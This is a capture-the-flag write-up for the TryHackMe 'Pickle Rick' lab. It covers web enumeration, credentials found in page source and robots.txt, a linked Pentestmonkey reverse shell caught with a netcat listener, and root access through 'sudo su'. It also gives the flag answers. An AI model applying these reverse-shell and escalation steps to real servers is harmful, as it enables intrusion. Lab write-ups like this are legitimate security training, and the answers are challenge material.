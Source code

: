 # Pickle Rick

This Rick and Morty themed challenge requires you to exploit a webserver to find 3 ingredients that will help Rick make his potion to transform himself back into a human from a pickle.

![rickandmorty](https://github.com/edoardottt/tryhackme-ctf/blob/main/Pickle-Rick/rickandmorty.jpeg)

Deploy the virtual machine on this task and explore the web application.

- What is the first ingredient Rick needs?

	- Go with a browser to `http://<TARGET_IP>`
	- Inspecting the page source code (you should do this always) there is a comment saying `username: R1ckRul3s`
	- With `nmap -sV <TARGET_IP>` we can see there is a webserver and ssh running.
	- Let's try to enumerate dirs `gobuster dir -u http://<TARGET_IP> -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt`
	- Casually I went on /robots.txt and found `Wubbalubbadubdub`.
	- Found `login.php` page. Enter with username `R1ckRul3s` and password `Wubbalubbadubdub`. 
	- Type `ls` to list all the files. Found `Sup3rS3cretPickl3Ingred.txt`. The cat command is disabled, but you can see it on the browser.
	- Instead the `clue.txt` file says: `Look around the file system for the other ingredient.`.
	- `mr. meeseek hair`

- Whats the second ingredient Rick needs?

	- Found this supercool [reverse shell](https://github.com/edoardottt/tryhackme-ctf/blob/main/Pickle-Rick/reverse-shell.sh) by Pentestmonkey. 
	- Edit the written ip with your ip address.
	- Copy and paste inside the command box that code.
	- `nc -lnvp 1234` on your machine
	- Execute the pasted code (hitting enter or clicking the button execute).
	- Now you are inside the target machine. Search for some cool ingredient inside home folder.
	- In /home/rick there is the `second ingredients` file.
	- `1 jerry tear`

- Whats the final ingredient Rick needs?

	- `sudo -l`.
	- Fuck. I can do everything.
	- `sudo su`
	- `cd /root`
	- `ls -alh`
	- `cat 3rd.txt`
	- `f**** ***ce`



